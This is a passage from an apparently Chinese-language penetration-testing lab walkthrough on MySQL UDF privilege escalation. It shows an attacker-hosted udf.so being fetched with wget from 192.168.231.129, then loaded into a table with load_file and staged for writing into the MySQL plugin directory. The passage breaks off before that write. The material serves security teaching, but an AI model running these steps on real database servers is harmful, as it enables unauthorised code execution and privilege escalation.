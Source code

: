 #### 8.5.2 下载UDF文件

启动apache服务并将UDF文件移动到`/var/www/html`

```bash
┌──(root㉿pinginglab)-[/var/www/html]
└─# mv /home/pinginglab/test/udf.so ./

┌──(root㉿pinginglab)-[/var/www/html]
└─# systemctl start apache2.service

wget http://192.168.231.129/udf.so
converted 'http://192.168.231.129/udf.so' (ANSI_X3.4-1968) -> 'http://192.168.231.129/udf.so' (UTF-8)
--2023-11-03 02:10:38--  http://192.168.231.129/udf.so
Connecting to 192.168.231.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17240 (17K)
Saving to: 'udf.so'

udf.so              100%[=====================>]  16.84K  --.-KB/s   in 0s     

2023-11-03 02:10:38 (46.5 MB/s) - 'udf.so' saved [17240/17240]
```

#### 8.5.3 将UDF文件写入plugin文件夹

```bash
mysql> use mysql
use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

# 创建数据表，字段line，类型为 blob（二进制大对象）
mysql> create table myfunc(line blob);
create table myfunc(line blob);
Query OK, 0 rows affected (0.00 sec)

# 将 /var/www/html/udf.so 文件的内容插入到数据表 myfunc 中
mysql> insert into myfunc values(load_file('/var/www/html/udf.so'));
insert into myfunc values(load_file('/var/www/html/udf.so'));
Query OK, 1 row affected (0.02 sec)

# 查看MySQL插件路径
mysql> show variables like '%plugin%';
show variables like '%plugin%';
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.00 sec)

# 查看是否可以写入文件
mysql> show variables like "%secure_file_priv%";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.00 sec)

# 将数据表 myfunc 的内容写到 /usr/lib/mysql/plugin/udf.so 中
```